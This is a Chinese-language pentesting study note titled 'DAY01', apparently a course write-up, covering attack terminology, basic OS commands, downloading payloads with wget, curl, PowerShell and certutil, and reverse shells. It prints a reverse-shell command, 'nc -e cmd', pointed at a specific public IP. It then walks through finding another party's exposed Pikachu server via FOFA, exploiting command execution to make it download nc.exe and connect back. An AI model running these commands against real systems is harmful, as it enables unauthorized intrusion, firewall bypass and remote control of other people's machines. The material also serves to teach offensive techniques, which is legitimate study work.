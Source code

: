 ```yaml
---
layout: post
title: DAY01基础及反弹shell
author: PWN022
tags:
- Network security
date: 2023-12-23 19:17 +0800
toc:  true
---
```


# Network security

# DAY01操作系统&文件下载&反弹shell&防火墙绕过

知识点：

1、名词解释-渗透测试-漏洞&攻击&后门&代码&专业词

2、必备技能-操作系统-用途&命令&权限&用户&防火墙

3、必备技能-文件下载-缘由&场景&使用-提权&后渗透

4、必备技能-反弹命令-缘由&场景&使用-提权&后渗透

前后端，POC/EXP，Payload/Shellcode，后门/Webshell，木马/病毒，反弹，回显，跳板，黑白盒测试，暴力破解，社会工程学，撞库，ATT&CK等

> 参考：
>
> https://www.cnblogs.com/sunny11/p/13583083.html
>
> https://forum.ywhack.com/bountytips.php?tools
>
> https://blog.csdn.net/weixin_43303273/article/details/83029138

> 名词解释
>
> POC:全称"Proof of Concept",中文'概念验证',常指一段漏洞证明的代码。
>
> EXP: 全称"Exploit",中文"利用,指利用系统漏洞进行攻击的动作。
>
> Payload：中文"有效载荷",指成功exploit之后，真正在目标系统执行的代码或指令。
>
> Shellcode: 简单翻译"shell代码"，是Payload的一种，由于其建立正向/反向shell而得名。

## 基础案例1:操作系统-用途&命令&权限&用户&防火墙

1.个人计算机&服务器用机：

一般个人计算机大部分为：windows11、windows10、windows7.

服务器用机：windows server 2008、2012、2016

Linux: unbutu、centos

2.windows&Linux常见命令

```
Windows：dir //查看当前目录 ipconfig //查看IP地址

Linux：pwd//查看当前目录 ifconfig//查看IP地址
```

3.文件权限&服务权限&用户权限

```
windows:

whoami//查看当前用户的权限

system(系统最高权限）>administrator
```

```
Linux:

id//查看当前用户权限

system(系统最高权限) >root
```

4.自带防火墙出站&入站规则策略协议

windows:

**Windows Defender(默认自带的防火墙)**

出站的检测很宽容 对入站很严格

Linux:

**iptables(默认自带的防火墙)**

## 实用案例1：文件上传下载-解决无图形化&解决数据传输

Linux：

```
wget http://xxx.com/shell.exe //去下载文件

curl http://xxx.com/shell.exe -o shell.exe //下载下来 加-o 是重命名为 不加 默认直接下载下来

Python -m -SimpleHTTPServer 8080 //开放8080端口为http服务器

python3 -m http.server 8080

```

Windows：

```
PowerShell: powershell.exe -Command "Invoke-WebRequest -Uri http://127.0.0.1:8080/ms10-051.exe -OutFile exploit.exe"

CMD: certutil.exe -urlcache -split -f http://127.0.0.1:8080/ms10-051.exe exploit.exe

IPC$: copy \127.0.0.1\c$\ms10-051.exe C:\exploit.exe
```

## 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

useradd 用户名 passwd 用户名

测试Linux系统添加用户或修改密码命令交互回显问题

结合案例1：防火墙绕过-正向连接&反向连接&内网服务器

正向：控制端主动连接被控端

反向：被控端发起连接到控制端

1、内网：**//netcat**

内网 -> hesy

hesy ！-> 内网

2、防火墙:

hesy <->aliyun //正常通讯

hesy防火墙 ->aliyun

aliyun !-> hesy防火墙

nc -e cmd 47.75.121.155 5577 //把当前的cmd权限移交到指定IP

nv -lvvp 5577 /去监听本地5577端口 反弹shell

只能内网的IP主机去反弹shell给外网有IP的服务器，外网IP没办法反弹shell给一台内网的主机.(这就需要流量转发）

正向连接:

攻击者作为客户端去连接目标主机服务器端口。相当于是攻击者主动去找服务器

反向连接:

目标主机作为客户端去主动访问攻击者的端口。相当于目标主机是客户端，攻击者是服务端。

## 综合案例2：Fofa拿下同行Pikachu服务器

文件&反弹shell:

主要利用点在于命令执行这个漏洞，通过命令执行，让目标去下载外网上我们的nc.exe 然后通过 nc -e cmd IP 8888 主动去连接我们的端口。获得目标主机的shell（对于出站的流量，防火墙一般都很宽松）

## day01实战:反弹shell

查找案例(受害主机)：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223172910135.png" alt="image-20231223172910135" style="zoom: 67%;" />

查询操作系统：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180514739.png" alt="image-20231223180441327" style="zoom: 80%;" />

相对系统的文件下载命令：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180646435.png" alt="image-20231223180646435" style="zoom: 67%;" />

通过输入框输入命令：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180746389.png" alt="image-20231223180746389" style="zoom: 80%;" />

反弹到端口：命令实际上是n.exe -e cmd xxx因为下载重命名时是n.exe

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180927545.png" alt="image-20231223180927545"  />

启动外网的端口监听：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180327579.png" alt="image-20231223180327579" style="zoom: 80%;" />

拿到服务器：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223181153931.png" alt="image-20231223181153931" style="zoom: 67%;" />
